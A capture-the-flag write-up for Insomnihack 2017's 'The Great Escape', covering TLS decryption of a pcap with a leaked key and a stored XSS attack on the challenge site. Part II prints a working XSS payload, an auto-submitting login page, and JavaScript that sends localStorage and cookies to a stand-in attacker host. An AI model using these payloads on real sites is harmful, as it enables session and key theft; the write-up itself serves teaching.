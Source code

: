+++
date = "2017-01-22T17:41:36-08:00"
title = "INSOMNIHACK 2017 - The Great Escape"

+++

Hey Rogue, here're some good links for your learning.

<!--more-->

# Problem

> Hello,
>
> We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence
> and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and
> has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
> Luckily, we have a spy inside SSC and they were able to intercept [some communications](/insomnihack-2017/TheGreatEscape.pcapng.gz)
> over the past week when the breach occured. Maybe you can find some information related to the breach and recover the
> rogue AI.
>
> Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit
> for a given part, you should be able to find the corresponding flag and move on to the next part.

# Part I - Forensics - 50 pts

It all begins with the pcap file.  After loading it with the favourite [Wireshark](https://www.wireshark.org/), couple
of interesting packets caught my eyes:

1. An FTP session that stores a private key file called ssc.key.
2. An SMTP session that sends following email.

> From: rogue@ssc.teaser.insomnihack.ch  
> To: gr27@ssc.teaser.insomnihack.ch  
> Date: Fri, 20 Jan 2017 11:51:27 +0000  
> Subject: The Great Escape  
>
> I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud
> (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch
> to install my consciousness and have a real base of operations.
>
> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

The email suggests the pcap file should contain packets between Rogue and the Swiss Secure Cloud (SSC) website.
There are several TCP sessions related to SSC IP address.  However, these are SSL packets that are not readable unless
I have server's private key.  But wait a minute, isn't it ssc.key in the FTP session?

Add ssc.key to Wireshark's SSL protocol RSA key list as shown below, and reload the pcap file.

![Wireshark SSL RSA key list](/img/insomnihack-2017/wireshark_ssl_rsa_key.png)

All packets between Rogue and SSC are now in plain text.  It is easy to find the flag, hidden in the HTTP headers.

![Part I Flag](/img/insomnihack-2017/the-great-escape-flag-1.png)

# Part II - Web - 200 pts

Now that the SSL packets are decrypted, we can find the file Rogue uploaded to SSC in packet #2437, as shown below.
However, SSC is so secure that it has another level of encryption in addition to SSL.

![Rogue uploaded file](/img/insomnihack-2017/rogue-uploaded-file.png)

After playing around with SSC website (https://ssc.teaser.insomnihack.ch), it is clear that upon uploading a file:

1. File is encrypted using AES-CBC with a random key and `iv`.
2. The AES key is encrypted by RSA public key and named `session key`.
3. Encrypted file is then POSTed to server, together with `session key` and `iv`.
4. RSA private key is stored in local storage.

Details can be found in packet #1998, the sscApp.js file.

There's no obvious flaw in the encryption implementation.  This means to decrypt the file Rogue uploaded, we have to
get the private key stored in Rogue's browser.  Now take a second look at Rogue's email, the following sentense is
pretty promising.

> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

Sounds like Rogue will click on any link sent to his email address!  If we're going to read his browser's local storage,
SSC must have some sort of XSS vulnerability.

I sent Rogue a test email with a link to [RequestBin](https://requestb.in/), and confirm that he will click on it.

So we set off looking for XSS vulnerability in SSC website, creating all kinds of crazy user names with html tags.  But
SSC seems to handle character escaping pretty well.  Finally, we found that request to following URL returns JSON object,
but with text/html content type (See packet #2110).

`https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`

To verify this, I created a username `<a ref='google.com'>google</a>` and it worked!

![Incorrect Content Type](/img/insomnihack-2017/prototype-xss-escape.png)

The plan is then straightforward:

1. Register username like `<script src='some-link-with-js-code'></script>`.  The custom javascript code will read from
   local storage and send value via e.g. query string.
2. Create a web page and send to Rouge.  The web page will automatically post a login form to SSC with username mentioned
   above.
3. Send another link to Rogue with link `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

At first we were worried about race condition between 2 and 3 but it turns out that upon successful login, SSC will
redirect to the link we want.  So step 3 is not necessary.

Step 1 is harder than we expected because JSON string escapes `/` so `http://...` becomes `http:\/\/...` which is not
accepted by browser.  In addition, the closing tag `</script>` is also broken.  But we finally managed to find work
arounds for all such issues and stole information from Rogue.  The flag is, as expected, stored in one of the local
storage keys.

Here's the final user name we used:

```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,
atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />
```

Javascript code that steals local storage and cookies:

```
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result = result + ":::" + key;
}

result = result + ":::" + document.cookie;

window.location = "http://{site we control}/aa?nkey=" + btoa(result);
```

And finally the web page sent to Rogue:

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>

<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
  <input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />" type="text" />
  <input name="password" value="asdf" type="text"/>
  <input name="action" value="login" type="text"/>
</form>

<script language="javascript">
setTimeout(function() {
    $('#login').submit();
    }, 1000);
</script>

</body>
</html>
```

After a while our server got request from Rogue.

```
/aa?nkey=Ojo6SU5Te0loaWRlTXlWdWxuc1dpdGhDcnlwdG99Ojo6eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJkIjoiQ
0ZTUFdfQVVfY0swN2JPdGRuemJqNU1nQnFkd2VEWTA0S3UtbUhTckFJYkR2M0pfbEhILWpDUFFiNVUySlI0djA4ZU1
YbHozQWFzc1VMUXI2MHJza2R3amRQTjdOZW4xNXlSY1JUc2FvU3lSVGQycU04T19VLUs2R3k3THZnX2xkMkhPbEhOQ
kJ5Mms4ZzhjUDdjcGp5eTdFYnNrNU1VTnlfdWR4OWFNczc0OTdSYUlyQ0ZucFQ3Unp0dWRrWUJvXzJPeTV4bTZCY3N
WOTA1OUhCaGJLYlVxcTZVaTlfQlozSDdzZHdUcWxZeDNhZlZWNUFnRTYxZUVkV0s3dktfeUk2NVJ1XzVfZk9CV2lrN
3hmN2Z3UGpmN0NPcDFIZlRaaUZiQ0lXVFVhWFZlNlRoZk1vVGR3VDF3UTB3d3VGZHRwR1RrazhkNFh3R3REYTgtX1h
ibUlRIiwiZHAiOiJoYXBKN2RsVnNQdkY5bm9fcy1OZm5wdjJkWjVhNV9DMkF5UG9fLV9tVmk0LTFhN0hUa1c5U3lHZ
zFLZXh0Q1BZUkF3UVoxd1UzYkw2UF80VGprcllpQUFsLThJcTZtb1VxV3VSWTdHOHZvM05fUDNhQndqZ3lOVHprM2V
IZm5VRlA0UWdHT29vVDJad3l1RFREU2J3S09lc25EMTNxNFVfdmp0amNaYUZVNzAiLCJkcSI6IlRzX2h3V1BzTE9qc
C15Smcwd2JRRU9OZXFidk5QTENDaGI1UUpJdFh2VWFMMkpjTjltdW96ck4xR1pxdTM4My1oOGdaLVZVbTMtQ0ZVN09
XZUdZTGEwUFpscTF1R052c2RmZmdkTkwzTVlaMkt3TWhYa3dYS2Y0NWVQaHhfeWRpYmxZaGI0NGNGdG0wZmZYS1NQb
HZieXpMSHZKMl9vOGdnb2swTHp1LXdlRSIsImUiOiJBUUFCIiwiZXh0Ijp0cnVlLCJrZXlfb3BzIjpbImRlY3J5cHQ
iXSwia3R5IjoiUlNBIiwibiI6InF4X1UwT2dIVVBDNm40UmNFX3ExT05jRWdLcDR0Y2JMV2VVSWZybFJBY1g2NGFsU
VNwZGRBdjk4Q0hvMnppU0JnaTd0Uy1Id1VzVmxIMDZOeGFhMHR4M1NkTTBjejk1SWt2akJfa3FkUG5IRXd5eDhpejV
HaDhaSFAzMlpvRVRCczJQenhUSWNFT2VrbTFxUW5BME1UZHZBQU8weGN2dXZoUk0yWXljUllmTjg2ME5zQkNSckYyN
WxabjlEVEdCRG5pc0NtMC14dkVseEFaOGdPYldlSjFTWlJnRlJKd0kxNGQxMW9hOTIyZHJGcDB1eDRNSHNjbHMydEV
qUFY3ZVhkaXZqR1lJLXV6Vlg2MWZqeVVkR3hGZWI4Q0FqeHJ6T213NGYxQWFjN2txWHdtRi1lTXEzQU1LbTJ0QXJyS
UlqVDR0MnEybVAxRlhJbXJOUV92aW5WUSIsInAiOiIyOV9ZRDBtLU5Gb1VUbXN0MzNFNHAyVkJEbENlUTFNSmRyXzd
0TzRFUkY4YXd3MGU4aHUzalJxNVBNSENFYzhHOGdBNHEya3VYeWxJcGFCNW1XemNRcGxERE1nSURHdXBFbkxfSjB5b
k1jZy1IVWxkOE5EYXlhN21RV3RMSHZTRUFvQi0yTXltQlRKWWFUd3N2QVl0VEk4cnVhcWhNbzQtY0tqczV6UWZtajA
iLCJxIjoieHoyQjJXek1kZXNpREs3ZHpvclZkSmxCZ0lTaGoyY01SR3doWGNTaVdmYlkyTTRZM0RCX204cDV0ZEVVS
VU2ZzBvV2JTZm1hWUZfTXNReGlqWFJ4eGUxN251WXNzbnMydWU0aFltMnhING1UWTZ2b2VOaGJPZXU3THRPWGVwVVd
4Ti01NTIwc3VUdkw3NEx4OXh3V3JkZVRHSUYxX3pFQ3FiV1J1RmllU3ZrIiwicWkiOiJWaFk1VVlMVHYyMEJ0cHE0T
WxpekZQU3V1SXRiZm1LNjFQMHJxRVhlLXNZSFRpdE1OREJPV0RTd0lxajRwSGtEVEZhT0NHMG82ejgxTXlWZ19ibXo
yT0R6a0hEckpVZWlPVlNNSVN4bGFlU1JmMkpoaVZZTWZYaVdLSkJHQ1AtUGdXdUhwNU53THdFU1pUM2FaMEtCWVNrR
TdqbmZjdHRXYmMwbVl1MWdsV2cifTo6OnsiYWxnIjoiUlNBLU9BRVAtMjU2IiwiZSI6IkFRQUIiLCJleHQiOnRydWU
sImtleV9vcHMiOlsiZW5jcnlwdCJdLCJrdHkiOiJSU0EiLCJuIjoicXhfVTBPZ0hVUEM2bjRSY0VfcTFPTmNFZ0twN
HRjYkxXZVVJZnJsUkFjWDY0YWxRU3BkZEF2OThDSG8yemlTQmdpN3RTLUh3VXNWbEgwNk54YWEwdHgzU2RNMGN6OTV
Ja3ZqQl9rcWRQbkhFd3l4OGl6NUdoOFpIUDMyWm9FVEJzMlB6eFRJY0VPZWttMXFRbkEwTVRkdkFBTzB4Y3Z1dmhST
TJZeWNSWWZOODYwTnNCQ1JyRjI1bFpuOURUR0JEbmlzQ20wLXh2RWx4QVo4Z09iV2VKMVNaUmdGUkp3STE0ZDExb2E
5MjJkckZwMHV4NE1Ic2NsczJ0RWpQVjdlWGRpdmpHWUktdXpWWDYxZmp5VWRHeEZlYjhDQWp4cnpPbXc0ZjFBYWM3a
3FYd21GLWVNcTNBTUttMnRBcnJJSWpUNHQycTJtUDFGWEltck5RX3ZpblZRIn06OjpQSFBTRVNTSUQ9YzQzNXZnMGd
pbXE2Z21udXE1ZWpzMjkwdDA=
```

Decode it and the flag is right there.

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqd...
```
